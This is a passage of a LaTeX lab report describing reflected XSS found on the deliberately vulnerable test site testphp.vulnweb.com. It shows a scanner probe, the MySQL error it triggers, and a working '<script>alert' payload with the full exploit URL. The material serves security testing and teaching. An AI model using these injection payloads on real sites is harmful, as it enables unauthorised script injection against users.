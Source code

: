 Analyzing the report we see 16 XSS vectors. The web application allows users to list products filtering for a category. The parameter payload for the URL \textbf{http://testphp.vulnweb.com/listproducts.php} looks like this:

\begin{verbatim}
?cat=%22.$.htaccess.aspx--%3E%22%3E%27%3E%27%22%3Csfi000107v352075%3E
\end{verbatim}

Navigating to that URL renders a MySQL exception, which is a hint that we may inject code:

\begin{verbatim}
Error: You have an error in your SQL syntax; check the manual that 
corresponds to your MySQL server version for the right syntax to 
use near '"' at line 1 Warning: mysql_fetch_array() expects 
parameter 1 to be resource, boolean given in 
/hj/var/www/listproducts.php on line 74 
\end{verbatim}

After some manual playing with this payload we found a working reflected XSS injection using the following payload:

\begin{lstlisting}[breaklines]
?cat=".$.htaccess.aspx-->">'>'"<script>alert('OK')</script>
\end{lstlisting}

Here is a link to the full working exploit URL: 
\href{http://testphp.vulnweb.com/listproducts.php?cat=".$.htaccess.aspx-->">'>'"<script>alert('OK')</script>}{Link}\\

Figure \ref{fig:ui5} shows a screenshot of the successful exploit.

\begin{figure}[H]
	\centering
	\includegraphics[width=12cm,keepaspectratio=true]{pictures/ui5.png}
	\caption{
		Successful exploit of a reflected XSS vector
	}
	\label{fig:ui5}
\end{figure}

